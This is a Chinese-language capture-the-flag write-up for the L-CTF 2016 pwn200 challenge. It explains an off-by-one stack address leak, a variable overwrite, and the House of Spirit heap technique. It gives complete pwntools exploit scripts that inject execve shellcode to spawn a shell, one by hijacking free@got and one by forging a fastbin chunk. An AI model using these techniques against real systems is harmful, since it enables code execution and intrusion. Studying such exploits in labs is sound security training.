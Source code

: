 ### L-CTF 2016 pwn200
程序运行
程序分析
#### 漏洞简介
**The house of Spirit**
> The House of Spirit is a little different from other attacks in the sense that it involves an attacker overwriting an existing pointer before it is 'freed'. The attacker creates a 'fake chunk', which can reside anywhere in the memory (heap, stack, etc.) and overwrites the pointer to point to it. The chunk has to be crafted in such a manner so as to pass all the security tests. This is not difficult and only involves setting the size and next chunk's size. When the fake chunk is freed, it is inserted in an appropriate binlist (preferably a fastbin). A future malloc call for this size will return the attacker's fake chunk. The end result is similar to 'forging chunks attack' described earlier.

[The House Of Spirit](https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit.html)


#### 程序运行
1. **初始内容**
```
who are u?
Bill
Bill, welcome to xdctf
give me your id ~~?
001
give me money~
10000
```
2. **主要内容**
```
=======EASY HOTEL========
1. check in
2. check out
3. goodbye
```
**check in**: `malloc`
**check out**: `free`
**good bye**: `exit`
#### 程序分析
**1. checksec**

![result](./02.png)

**2. 漏洞一 (`off by one`)**

![result](./01.png)

> 当输入`48`个字符时, 会触发`off by one`漏洞, 将`0x400A8E`函数栈帧`RBP`打印出来.

**2. 漏洞二 (变量覆盖)**

![result](./03.png)

### 漏洞利用
**两种思路**
1. **思路(非HOS)**: 初始时输入`shellcode`, 泄露`RBP`,找出`Shellcode`地址. 覆盖dest变量值为`free@got`, `buf`中为`shellcode_addr + 其他任意字符`, 最后:输入`2`, 执行`free`(就是执行我们的`shellcode`).
```
#coding = utf8
from pwn import *
context(log_level="debug")

p = process('./pwn200')
elf = ELF('./pwn200')
free_got = elf.got["free"]

gdb.attach(p)
p.recvuntil('u?\n')

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
p.send(shellcode+"a"*(48-len(shellcode)))

ebp = u64(p.recvuntil(' me your id ~~?\n')[48:48+6].ljust(8,'\x00')) # leak stack address
print "ebp = "+hex(ebp)
offset = 0x00007fff401d62e0 - 0x00007fff401d6290
shellcode_addr = ebp - offset
print "shellcode_addr = " + hex(shellcode_addr)
p.sendline('0') #id

p.recvuntil('\n')

payload = p64(shellcode_addr)
p.send(payload + '\x00'*(0x38-len(payload)) + p64(free_got))  #the juck data must be '\x00' in the got!
p.recvuntil('choice :')
p.sendline('2')
p.interactive()
```
2.**思路(HOS)**: 修改`0x400A29`函数的返回值地址为`shellcode`地址, 退出即可.
**leak address**
```
payload  = ''
payload += shellcode.ljust(48)
p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))
shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # 修改函数返回值地址用
```
**free(fake_addr)**
```
data = p64(0)*4 + p64(0) + p64(0x41) # p64(0)*4, strcpy不会复制任何字符到fake_addr
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)
```
**malloc**
```
p.recvuntil('choice : ')
p.sendline('1')
p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40, 大小要和fastbin中的大小一致, 这样才会返回我们的fake_addr
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')
```
**Quit**
```
p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
### The Whole EXP
```
from pwn import *

context.log_level = 'debug'
# p = remote('127.0.0.1', 7777)
p = process('./pwn200')

free_got = 0x0000000000602018

shellcode = asm(shellcraft.amd64.linux.sh(), arch = 'amd64')

gdb.attach(p)
#part one
payload  = ''
payload += shellcode.ljust(48)

p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))

shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # offset 0x40 to shellcode, 0x400a29 return address


p.recvuntil('give me your id ~~?\n')
p.sendline('32') # id
p.recvuntil('give me money~\n')


#part two
#32bytes padding + prev_size + size + padding + fake_addr
data = p64(0) * 4 + p64(0) + p64(0x41)		# no strcpy
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)

p.recvuntil('choice : ')
p.sendline('1') 	#malloc(fake_addr) #fake_addr

p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')

p.send(data)

p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
### Related Link
[堆之House of Spirit ](https://www.anquanke.com/post/id/85357)(EXP不行)
